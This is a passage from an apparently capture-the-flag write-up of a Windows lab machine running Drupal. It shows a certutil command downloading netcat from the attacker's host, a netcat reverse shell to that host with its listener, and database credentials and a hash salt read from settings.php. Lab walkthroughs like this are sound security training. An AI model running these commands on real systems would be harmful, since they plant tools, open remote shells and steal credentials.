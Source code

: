 ![user](../.res/2022-09-05-12-43-29.png)

- We get a netcat binary in our target (we serve it using python and get it with certutil) `certutil.exe -urlcache -f http://10.10.14.9/nc.exe nc.exe`
- Let's get a more interactive shell `nc.exe -e cmd.exe 10.10.14.9 4444` (we also need to setup a listener `rlwrap nc -lvp 4444`)  

![shell](../.res/2022-09-05-12-59-37.png)  

- We get a better shell  

![better shell](../.res/2022-09-05-13-44-07.png)

- We have some creds in sites\default\settings.php

```bash
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'root',
      'password' => 'mysql123!root',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
$drupal_hash_salt = 'sHsUB6KgUSo7-xB5HyYfAcgpyy9R8xPGkMIUolnT-yY';
```
